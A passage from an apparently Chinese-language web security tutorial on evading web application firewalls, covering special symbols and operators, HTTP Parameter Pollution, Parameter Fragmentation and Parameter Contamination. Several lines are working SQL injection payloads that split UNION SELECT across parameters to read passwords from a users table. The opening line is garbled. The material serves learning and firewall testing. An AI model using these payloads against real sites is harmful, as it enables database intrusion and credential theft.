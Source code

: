 !和()' or --+2=- -!!!'2

```
id=1+(UnI)(oN)+(SeL)(EcT)

```

//有看到说Access中,”[]”用于表和列,”()”用于数值也可以做分隔

本节最后再给出一些和这些字符多少有点关系的操作符供参考

```
> > , <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN

```

使用这些"特殊符号"实现绕过是一件很细微的事情一方面各数据库对符号的处理是不尽相同的另一方面你得充分了解这些符号的特性和使用方法才能会考虑利用其实现绕过

### g) HTTP参数控制

这里HTTP参数控制除了对查询语句的参数进行篡改还包括HTTP方法、HTTP头的控制

#### 1.HPP(HTTP Parameter Polution)

举例

```
/?id=1;select+1&id=2,3+from+users+where+id=1—
/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users

```

HPP又称做重复参数污染最简单的就是?uid=1&uid=2&uid=3对于这种情况不同的Web服务器处理方式如下

![2014022613524357191.jpg](http://drops.javaweb.org/uploads/images/a5d4a2c214e0e2af6c2d2f537d49f99822a80d3c.jpg)

具体WAF如何处理要看其设置的规则不过就示例中感觉最后一个来看有较大可能绕过

#### 2.HPF(HTTP Parameter Fragment)

这种方法是HTTP分割注入同CRLF略有相似之处(使用控制字符%0a、%0d等换行)

举例　

```
/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--
select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—

```

看完上面两个示例发现和HPP最后一个示例很像不同之处在于参数不一样这里是在不同的参数之间进行分割结果到了数据库执行查询时再合并语句。

#### 3.HPC(HTTP Parameter Contamination)

这一概念见于[Beyond SQLi: Obfuscate and Bypass](http://www.exploit-db.com/papers/17934/)这里Contamination意为污染

RFC2396定义了如下一些字符

```
Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()  
Reserved : ; / ? : @ & = + $ ,  
Unwise : { } | \ ^ [ ] `

```
